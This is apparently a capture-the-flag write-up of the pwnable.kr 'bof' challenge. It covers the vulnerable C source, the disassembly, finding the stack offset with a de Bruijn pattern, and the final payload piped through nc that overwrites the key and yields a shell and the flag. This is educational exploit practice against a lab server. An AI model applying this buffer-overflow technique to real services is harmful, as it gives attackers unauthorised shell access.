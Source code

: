 # Solution

challenge:
```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

bof:
```
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

bof.c:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);       // smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

>since this is 32bit the parameters to functions will be loaded on the stack instead of the registers like in 64bit

func:
```asm
┌ 94: sym.func (uint32_t arg_8h);
│           ; var int32_t var_2ch @ ebp-0x2c
│           ; var int32_t var_ch @ ebp-0xc
│           ; arg uint32_t arg_8h @ ebp+0x8
│           0x0000062c      55             push ebp
│           0x0000062d      89e5           mov ebp, esp
│           0x0000062f      83ec48         sub esp, 0x48
│           0x00000632      65a114000000   mov eax, dword gs:[0x14]
│           0x00000638      8945f4         mov dword [var_ch], eax
│           0x0000063b      31c0           xor eax, eax
│           0x0000063d      c704248c0700.  mov dword [esp], str.overflow_me_:_ ; [0x78c:4]=0x7265766f ; "overflow me : "; RELOC 32  ; int32_t arg_8h                                                                                    
│           0x00000644      e8fcffffff     call puts                   ; RELOC 32 puts
│           0x00000649      8d45d4         lea eax, [var_2ch]
│           0x0000064c      890424         mov dword [esp], eax        ; int32_t arg_8h
│           0x0000064f      e8fcffffff     call gets                   ; RELOC 32 gets
│           0x00000654      817d08bebafe.  cmp dword [arg_8h], 0xcafebabe
│       ┌─< 0x0000065b      750e           jne 0x66b
│       │   0x0000065d      c704249b0700.  mov dword [esp], str._bin_sh ; [0x79b:4]=0x6e69622f ; "/bin/sh"; RELOC 32  ; int32_t arg_8h
│       │   0x00000664      e8fcffffff     call system                 ; RELOC 32 system
```

generate a de bruijn sequence for figuring out the stack offset
> ragg2 -P 100 -r
> AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh

gdb:
set a break point at the cmp of 0xcafebabe and the key. read the values from register ebp and find the offset.
```
(gdb) x/wx $ebp+0x8
0xffffcfb0:     0x41534141
(gdb) 
```
0x410x53 is 'AS'
which leaves us with the resulting offset:
len(AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARA) = 52
ebp starts at 'AS'
so the payload should look like
```bash
echo "AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARA\xbe\xba\xfe\xca" -n | nc pwnable.kr 9000
```

get the flag:
```
(echo "AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAAR\xbe\xba\xfe\xca"; cat) | nc pwnable.kr 9000
cat flag.txt
cat: flag.txt: No such file or directory
ls -la
total 7204
drwxr-x---   3 root bof     4096 Dec 25  2022 .
drwxr-xr-x 116 root root    4096 Oct 30 05:25 ..
d---------   2 root root    4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof     7348 Sep 12  2016 bof
-rw-r--r--   1 root root     308 Oct 23  2016 bof.c
-r--r-----   1 root bof       32 Jun 11  2014 flag
-rw-r--r--   1 root root 7337229 Apr 20 02:00 log
-rwx------   1 root root     760 Sep 11  2014 super.pl
cat flag
daddy, I just pwned a buFFer :)
```

after having some trouble getting the payload to work I found the workaround with cat. this has to do with stdin and stdout colliding in the communication process of transferring the payload.